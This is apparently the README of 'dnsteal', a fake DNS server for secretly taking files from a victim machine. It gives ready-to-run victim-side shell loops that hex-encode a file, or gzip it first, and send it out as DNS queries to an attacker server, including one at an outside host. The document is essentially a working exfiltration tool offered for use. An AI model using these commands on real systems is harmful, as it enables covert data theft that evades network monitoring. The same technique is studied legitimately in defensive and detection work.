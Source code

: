 # dnsteal

This is a fake DNS server that allows you to stealthily extract files from a victim machine through DNS requests. 

Below is an image showing an example of how to use:

![Alt text](https://github.com/m57/dnsteal/blob/master/dns-exfil.PNG)

On the victim machine, you simply can do something like so:

```bash
for b in $(xxd -p file/to/send.png); do dig @server $b.fakedomain.com
```

It also supports compression of the file to allow for faster transfer speeds, this can be achieved using the "-z" switch:

```bash
python dnsteal.py 127.0.0.1 -z
```

Then on the victim machine send a Gzipped file like so:

```bash
for b in $(gzip -c file/to/send.png | xxd -p); do dig @program.ninja $b.domain.com; done
```

~x90
